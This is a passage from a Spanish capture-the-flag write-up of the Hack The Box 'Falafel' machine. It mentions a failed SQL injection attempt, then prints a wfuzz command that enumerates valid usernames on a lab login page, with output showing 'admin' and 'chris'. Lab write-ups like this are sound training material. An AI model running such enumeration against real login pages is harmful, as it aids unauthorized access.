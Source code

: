 <img src="/writeups/assets/img/Falafel-htb/3.png" alt="">

Intento efectuar una inyección SQL, me salta una advertencia

<img src="/writeups/assets/img/Falafel-htb/4.png" alt="">

Utilizo un diccionario de Seclists para validar usuarios

```null
wfuzz -c --hh=7074 -t 200 -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -d 'username=FUZZ&password=admin' http://10.10.10.73/login.php
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.73/login.php
Total requests: 10177

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                        
=====================================================================

000000086:   200        102 L    659 W      7091 Ch     "admin"                                                                                                                                        
000001886:   200        102 L    659 W      7091 Ch     "chris"                                                                                                                                        

Total time: 0
```